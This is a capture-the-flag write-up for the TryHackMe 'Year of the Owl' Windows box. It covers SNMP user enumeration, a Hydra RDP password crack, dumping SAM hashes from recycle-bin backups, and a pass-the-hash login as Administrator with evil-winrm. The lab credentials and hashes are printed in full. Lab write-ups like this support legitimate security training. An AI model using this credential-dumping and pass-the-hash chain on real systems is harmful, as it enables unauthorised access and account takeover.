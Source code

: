 ## Year of the Owl Tryhackme Writeup

### Nmap
```
PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
47001/tcp open  winrm
```
UDP port SNMP 161 open

snmp-check 10.10.233.57 -c openview

```
[*] User accounts:

  Guest               
  Jareth              
  Administrator       
  DefaultAccount      
  WDAGUtilityAccount 
```

With this username crack password using hydra

	[3389][rdp] host: 10.10.233.57   login: Jareth   password: login: Jareth password: sarah

## Privesc

```
*Evil-WinRM* PS C:\Users\Jareth\Desktop> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== =============================================
year-of-the-owl\jareth S-1-5-21-1987495829-1628902820-919763334-1001


```

cd 'c:\$recycle.bin\<User SID>' Recyle bin has the sam and system bak files. 


```
┌──(arun㉿kali)-[/usr/share/creddump7]
└─$ python pwdump.py ~/CTF/THM/yearoftheowl/SYSTEM ~/CTF/THM/yearoftheowl/SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17161dfd4555a:::
```

### Pass the Hash

```
┌──(arun㉿kali)-[/usr/share/creddump7]
└─$ evil-winrm -i 10.10.233.57 -u administrator -H 6bc99ede9edcfecf9662fb0c0ddcfa7a

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
